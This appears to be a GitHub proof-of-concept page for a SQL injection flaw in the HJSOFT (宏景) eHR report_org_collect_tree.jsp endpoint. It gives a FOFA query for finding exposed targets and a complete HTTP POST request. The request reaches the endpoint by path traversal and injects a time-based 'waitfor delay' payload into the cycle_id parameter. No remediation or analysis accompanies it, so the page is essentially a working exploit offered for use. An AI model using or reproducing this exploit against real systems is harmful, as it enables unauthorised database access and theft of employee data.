 ## 宏景eHR-report_org_collect_tree.jsp存在SQL注入漏洞

## fofa
```
app="HJSOFT-HCM"
```

## poc
```
POST /templates/attestation/../../report/report_collect/report_org_collect_tree.jsp HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=C79DED09D8CE46170DEB697EA6999135
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

params=&isAction=2&cycle_id=2;waitfor%20delay%20'0:0:5'--%20
```

![f6c354c850bd15f2741ccad6633bea6f](https://github.com/wy876/POC/assets/139549762/b76e979f-959e-4c72-998c-ed9afde9bf96)
